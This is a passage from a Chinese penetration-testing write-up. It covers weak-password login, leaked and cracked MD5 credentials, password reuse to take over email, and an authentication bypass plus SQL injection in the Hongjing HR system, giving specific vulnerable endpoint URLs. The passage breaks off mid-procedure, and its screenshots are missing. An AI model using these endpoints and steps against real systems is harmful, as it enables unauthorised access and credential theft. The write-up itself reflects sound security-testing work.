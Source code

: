 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicQpBicic5vstwYEXBnZZrzI3m0iadA1kZRYGdMiaQ1Bpf4ibGuMfibBXjamPg/640?wx_fmt=png&from=appmsg "")  
  
弱口令登录成功后，在选择项目经理功能点处存在信息泄露。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicrPw6qTxF7iaichFqIssyAa5hSFBxMKYOicfOfH4TePebm80IyM4pAvWsg/640?wx_fmt=png&from=appmsg "")  
  
泄露邮箱、密码等信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicV96NleDgWEqXkWUkf58oYch8RPvRW8oxpPsT22Ps1TiajicuW9g7AibZQ/640?wx_fmt=png&from=appmsg "")  
  
密码 md5 解密。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLichxhNWWicZ6fMdwMR2cj1ibJjkwZg1kGmqKHiclPWYxmFibEdukwk7CVBicA/640?wx_fmt=png&from=appmsg "")  
#### 2.9、电子邮件系统  
##### 2.9.1、密码复用  
  
重复使用上面的邮箱账号和密码，可登录电子邮件系统。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicTstMG7cljibdsxpibCv8zs7jMQELphrYWURV5pBfGph8iaOHEticiaBZodg/640?wx_fmt=png&from=appmsg "")  
  
接管邮箱。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLic8ppTDiaDx5aljNE22oIjBu7WN9XzNulGJJZ4e45eYKKgeXMkTsgOmiaA/640?wx_fmt=png&from=appmsg "")  
#### 2.10、宏景人力资源系统  
##### 2.10.1、0day前台注入（新版本已修复）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicMQribIvPBbKQOTBVMl6gY0HHqveJbgMlyFnYfXHdMb0GAiczick69pGkg/640?wx_fmt=png&from=appmsg "")  
###### 2.10.1.1、权限绕过接口1  
  
打开 F12 翻找 js 文件中的接口进行测试。  
  
在文件在发现一个接口，路径为：  
```
/hire/employNetPortal/search_zp_position.do?br_getpassword=get`dbname="+dbName+"`userC="+userNameCloumn+"`passC="+passWordCloumn 其中 “ ` ”表示GET请求中添加参数的“ & ”。
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLic8YlV2xJ0d2Fq1MskOgTMk8I6R615FuC4t00reg5OZqm6jDysKjOabg/640?wx_fmt=png&from=appmsg "")  
  
访问该页面，通过在找回密码页面JS代码中得到路径：  
```
/hire/employNetPortal/search_zp_position.do?b_query=link
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicsSpGEibbaichBsed73A0BoyGKtWGnQ4hFHs3L6hoTKHaolFnlO0MicBwA/640?wx_fmt=png&from=appmsg "")  
  
**拼接访问后可以进入系统页面，此时已经通过身份验证，猜测后台已将当前请求Cookie设为通过验证，再次访问漏洞URL发现不跳转回登录页面，绕过了登录验证。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/j6taeOcKcp0VcDNzfooKO0uyagnbbsLicibiaQFI9zPYkqyd58c48icmoicCqRyZZ1jQDxKUyYNuo99Qt1eYXorPLSQ/640?wx_fmt=png&from=appmsg "")  
###### 2.10.1.2、权限绕过SQL注入  
  
在 js 文件中继续翻找，尝试寻找后台的链接。  
```
/train/plan/searchCreatPlanList.do?b_selectPlan=query`selectID=
```  
  